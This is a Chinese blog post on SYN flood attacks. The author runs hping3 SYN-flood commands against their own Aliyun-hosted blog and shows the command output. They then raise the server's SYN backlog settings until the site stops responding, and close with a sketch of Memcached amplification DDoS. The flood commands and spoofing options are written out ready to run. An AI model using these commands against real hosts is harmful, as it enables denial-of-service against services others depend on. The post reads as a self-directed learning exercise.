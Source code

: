 ```yaml
---
title: SYN Flood Attack
author: 小黄鸭
type: post
date: 2019-12-26T14:03:53+00:00
excerpt: SYN Flood攻击本博客实践
featured_image: /wp-content/uploads/2019/12/Screenshot-from-2019-12-26-22-02-50.png
rank_math_primary_category:
  - 29
rank_math_seo_score:
  - 18
rank_math_internal_links_processed:
  - 1
categories:
  - 最佳实践

---
```

## 什么是SYN Flood

SYN Flood，又称TCP Flood，是利用TCP协议三次握手消耗目标服务器资源的DDoS攻击。客户端通过伪造SYN包，使用伪造的源IP地址，因为服务端收到请求后会对SYN进行响应——发送SYN和ACK包，但是对方的地址是伪造的因此不会响应，服务端会重试几次后丢弃这个连接。这样会导致服务端对多个伪造的SYN包在重试响应，无暇理睬正常的连接请求。

## 实践

### 初步尝试

根据定义，需要向特定服务发送大量的TCP SYN包，因此需要利用一些发包工具。通过搜索找到[hping工具][1]，作者是antirez（Redis作者）。以下是安装及文档中部分实践使用到的参数：

```
uck@duck-MS-7A34:~$ sudo apt install hping3
duck@duck-MS-7A34:~$ sudo hping --help
usage: hping3 host [options]
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
      --fast      alias for -i u10000 (10 packets for second)
      --faster    alias for -i u1000 (100 packets for second)
      --flood      sent packets as fast as possible. Don't show replies.
IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
UDP/TCP
  -s  --baseport   base source port             (default random)
  -p  --destport   [+][+]&lt;port> destination port(default 0) ctrl+z inc/dec
  -S  --syn        set SYN flag</code></pre>

```
尝试攻击部署在阿里云的个人博客：

```
uck@duck-MS-7A34:~$ sudo hping3 -i u1000 -S -p 443 120.25.247.125
HPING 120.25.247.125 (enp33s0 120.25.247.125): S set, 40 headers + 0 data bytes
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=0 win=29200 rtt=15.8 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=1 win=29200 rtt=14.7 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=2 win=29200 rtt=13.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=3 win=29200 rtt=12.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=4 win=29200 rtt=11.5 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=5 win=29200 rtt=10.5 ms
...</code></pre>

```
此时可以在ECS上看到网络情况，通过netstat命令查看到处于SYN_RECV的大量TCP连接，如图所示：

![](../2019/12/001-zhujiekun-SYN_RECV.png)
### 暴力发包

尝试将攻击频率调快：`sudo hping3 -i u1 -S -p 443 120.25.247.125`，然后在ECS上查看当前的SYN包个数：

```
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ netstat -n | grep SYN | wc -l
128</code></pre>

```
只有128个TCP半连接，与发包数量相差很大。猜测是系统配置限制了总TCP连接数上限或者半连接状态连接数上限。

通过查询相关文档，找到系统配置：

```
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ vim /etc/sysctl.conf
vm.swappiness = 0
net.ipv4.neigh.default.gc_stale_time = 120

# see details in https://help.aliyun.com/knowledge_detail/39428.html
net.ipv4.conf.all.rp_filter = 0
net.ipv4.conf.default.rp_filter = 0
net.ipv4.conf.default.arp_announce = 2
net.ipv4.conf.lo.arp_announce = 2
net.ipv4.conf.all.arp_announce = 2

# see details in https://help.aliyun.com/knowledge_detail/41334.html
net.ipv4.tcp_max_tw_buckets = 5000
net.ipv4.tcp_syncookies = 1
net.ipv4.tcp_max_syn_backlog = 128
net.ipv4.tcp_synack_retries = 2

net.ipv6.conf.all.disable_ipv6 = 1
net.ipv6.conf.default.disable_ipv6 = 1
net.ipv6.conf.lo.disable_ipv6 = 1
net.ipv6.conf.eth0.disable_ipv6 =1

kernel.sysrq = 1</code></pre>

```
其中一项`net.ipv4.tcp_max_syn_backlog = 128`可能是有关项，并且通过查阅文件中提供的阿里云文档，得到参数和它相关参数的具体描述：

  * `net.ipv4.tcp_max_syn_backlog`：该参数决定了系统中处于SYN\_RECV状态的TCP连接数量。SYN\_RECV状态指的是当系统收到SYN后，作为SYN+ACK响应后等待对方回复三次握手阶段中的最后一个ACK的阶段。对于还未获得对方确认的连接请求，可保存在队列中的最大数目。如果服务器经常出现过载，可以尝试增加这个数字。默认为1024。
  * `net.core.somaxconn`：该参数定义了系统中每一个端口最大的监听队列的长度，是个全局参数。该参数和net.ipv4.tcp\_max\_syn_backlog有关联，后者指的是还在三次握手的半连接的上限，该参数指的是处于ESTABLISHED的数量上限。当backlog大于net.core.somaxconn时，以net.core.somaxconn参数为准。

那么将他们都改成一个特别大的数值然后保存，再尝试SYN Flood，结果如下：

  * 因为发包占用了很多的流量所以本机无法SSH上ECS查看
  * 通过阿里云的管理面板查看到TCP包一共64000个，其中NON_ESTABLISHED状态的包占了几乎全部数量
* 访问https的博客地址无法响应

![](../2019/12/001-zhujiekun-TCP_connection_count.png)
### 持续监控

在持续发包一段时间后，发现TCP连接数下降至约500个，并且博客站点重新可以访问。因为时间原因没有尝试其他的手段，主要推测可能是现有的系统（也可能是协议层、云服务商等）对暴力SYN Flood攻击有判断和校验，丢弃特定特征的包（相同IP、端口或者其他指纹）。

因为ECS地理位置离测试地点较近，所以通常延迟非常低。在SYN状态TCP连接数量从64k下降到500时，站点可以进行访问但是观察到速度比原来明显缓慢，通过这点猜测DoS攻击有生效但是受限于使用的发起攻击的设备流量条件不足以拖跨服务。

## 延伸思考

因为设备条件问题，虽然可以观察到大量半连接的TCP状态，但是离DoS（Denial of Service）还是有很大的差距，消耗不完目标的网络带宽或系统资源。那是否有方案通过小流量产生大流量（放大）的攻击呢？

### Memcached DDoS

当Memcached服务器接收到GET请求，它从内存获取相关信息组织起一个RESPONSE，然后通过连续的UDP包进行返回。通常来说GET请求的体积和RESPONSE的体积大小可以相差很多倍。

攻击者可以利用这点，先向Memcached服务器插入随机的大体积数据，然后向服务器请求。根据CloudFlare的报告，这样会导致一个巨大的流量放大倍数，例如15 byte的请求可以引起134KB的响应。当Memcached响应的对象指向攻击目标机器的时候，目标机器就会收到海量的UDP包，从而可能导致拒绝服务。

 [1]: https://github.com/antirez/hping